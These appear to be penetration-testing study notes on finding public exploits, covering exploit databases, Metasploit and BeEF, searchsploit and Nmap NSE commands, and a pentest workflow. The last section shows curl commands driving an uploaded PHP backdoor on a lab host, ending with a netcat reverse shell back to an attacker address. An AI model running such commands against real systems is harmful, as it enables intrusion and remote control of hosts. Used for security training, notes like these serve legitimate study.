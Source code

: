 # Online Exploit Database

- ExploitDB
- Packet Storm
	- website with news, exploits, and tools
- GitHub
- Google Search Operators

# Offline Exploit Resources

- Metasploit
- Core Impacket
	- costs
	- automate testing, scanners, phishing, re-tests
- Canvas
	- costs
	- exploits updated monthly
- Browser Exploitation Framework (BeEF)
	- client-side attacks executed within a web browser
## SearchSploit
- Location
	- /usr/share/exploitdb
- Update
	- sudo apt update && sudo apt install exploitdb
- Search
	- searchsploit [options] [term1] [term1] [term2]
- Download exploit
	- searchsploit -m 13432
	- searchsploit -m windows/remote/13342.py
## Nmap NSE Scripts
- Location
	- /usr/share/nmap/scripts
- Search scripts
	- grep Exploits /usr/share/nmap/scripts/*.nse
- More info on scripts
	- nmap --script-help=clamav-exec.nse

## Putting it together

- pentest workflow
	1. scan
	2. web directory enumeration
	3. find outdated version of service
	4. find public exploit
	5. dictionary attack for pass to login
	6. exploit
- Example: 
	- curl http://192.168.50.11/project/uploads/users/420919-backdoor.php?cmd=whoami
	- modify curl to url encode
		- --date-urlencode
		- curl http://192.168.50.11/project/uploads/users/420919-backdoor.php --data-urlencode "cmd=which nc"
			- which nc to check if nc is installed
	- revere shell
		- curl http://192.168.50.11/project/uploads/users/420919-backdoor.php --data-urlencode "cmd=nc -nv 192.168.50.129 6666 -e /bin/bash"




